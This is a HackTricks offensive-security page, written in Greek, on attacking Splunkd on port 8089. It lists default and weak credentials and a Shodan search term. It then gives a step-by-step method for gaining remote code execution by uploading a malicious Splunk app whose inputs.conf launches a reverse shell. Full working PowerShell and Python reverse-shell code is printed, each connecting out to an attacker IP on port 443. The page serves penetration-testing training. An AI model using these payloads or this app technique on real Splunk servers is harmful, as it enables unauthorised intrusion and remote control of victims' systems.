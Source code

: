 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Βασικές Πληροφορίες**

* Εργαλείο ανάλυσης καταγραφών που χρησιμοποιείται για τη συλλογή, ανάλυση και οπτικοποίηση δεδομένων
* Χρησιμοποιείται συνήθως στην παρακολούθηση ασφάλειας και στην επιχειρηματική ανάλυση
* Προεπιλεγμένες θύρες:
* Διακομιστής ιστού: 8000
* Υπηρεσία Splunkd: 8089

### Δυνητικοί Κίνδυνοι:

1. Εκμετάλλευση Δωρεάν Έκδοσης

* Η δοκιμαστική έκδοση μετατρέπεται αυτόματα σε δωρεάν έκδοση μετά από 60 ημέρες
* Η δωρεάν έκδοση δεν διαθέτει αυθεντικοποίηση
* Πιθανός κίνδυνος ασφάλειας αν αφεθεί χωρίς διαχείριση
* Οι διαχειριστές μπορεί να παραβλέψουν τις επιπτώσεις στην ασφάλεια

2. Αδυναμίες Διαπιστευτηρίων

* Παλαιότερες εκδόσεις: Προεπιλεγμένα διαπιστευτήρια `admin:changeme`
* Νεότερες εκδόσεις: Διαπιστευτήρια που ορίζονται κατά την εγκατάσταση
* Πιθανότητα χρήσης αδύναμων κωδικών πρόσβασης (π.χ., `admin`, `Welcome`, `Password123`)

3. Ευκαιρίες Εκτέλεσης Κώδικα από Απόσταση

* Πολλές μέθοδοι εκτέλεσης κώδικα:
* Εφαρμογές Django πλευράς διακομιστή
* REST endpoints
* Σενάρια εισόδου
* Σενάρια ειδοποίησης
* Υποστήριξη πολλαπλών πλατφορμών (Windows/Linux)
* Τα σενάρια εισόδου μπορούν να εκτελούν:
* Bash scripts
* PowerShell scripts
* Batch scripts

Κύρια Δυνατότητα Εκμετάλλευσης:

* Αποθήκευση ευαίσθητων δεδομένων
* Έλλειψη αυθεντικοποίησης στη δωρεάν έκδοση
* Πολλοί κίνδυνοι για πιθανή εκτέλεση κώδικα από απόσταση
* Δυνατότητα εκμετάλλευσης σενάριων εισόδου για συμβιβασμό συστήματος

### Shodan

* `Splunk build`

## RCE

### Δημιουργία Προσαρμοσμένης Εφαρμογής

Το Splunk προσφέρει μια προηγμένη μέθοδο για την εκτέλεση κώδικα από απόσταση μέσω της ανάπτυξης προσαρμοσμένων εφαρμογών, εκμεταλλευόμενο τις δυνατότητες scripting πολλαπλών πλατφορμών του. Η βασική τεχνική εκμετάλλευσης περιστρέφεται γύρω από τη δημιουργία μιας κακόβουλης εφαρμογής που μπορεί να εκτελεί reverse shells σε συστήματα Windows και Linux.

Μια προσαρμοσμένη εφαρμογή μπορεί να εκτελεί **Python, Batch, Bash ή PowerShell scripts**. Επιπλέον, **το Splunk έρχεται με εγκατεστημένο Python**, οπότε ακόμη και σε **συστήματα Windows** θα μπορείτε να εκτελείτε κώδικα python.

Μπορείτε να χρησιμοποιήσετε [**αυτό**](https://github.com/0xjpuff/reverse_shell_splunk) το παράδειγμα με το **`bin`** που περιέχει παράδειγμα για [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) και [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Ή μπορείτε να δημιουργήσετε το δικό σας.

Η διαδικασία εκμετάλλευσης ακολουθεί μια συνεπή μεθοδολογία σε όλες τις πλατφόρμες:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Το κρίσιμο αρχείο διαμόρφωσης `inputs.conf` ενεργοποιεί το σενάριο με:

* Ρύθμιση `disabled = 0`
* Διαμόρφωση ενός διαστήματος εκτέλεσης 10 δευτερολέπτων
* Ορισμός του τύπου πηγής του σεναρίου

Η ανάπτυξη είναι απλή:

1. Δημιουργήστε το κακόβουλο πακέτο εφαρμογής
2. Ρυθμίστε έναν ακροατή (Netcat/socat) στη μηχανή επίθεσης
3. Ανεβάστε την εφαρμογή μέσω της διεπαφής του Splunk
4. Ενεργοποιήστε την αυτόματη εκτέλεση του σεναρίου κατά την ανέβασμα

Δείγμα Windows PowerShell reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Δείγμα αντίστροφης θηλιάς Python σε Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Στην παρακάτω σελίδα μπορείτε να βρείτε μια εξήγηση για το πώς αυτή η υπηρεσία μπορεί να καταχραστεί για να κλιμακώσει τα δικαιώματα και να αποκτήσει επιμονή:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
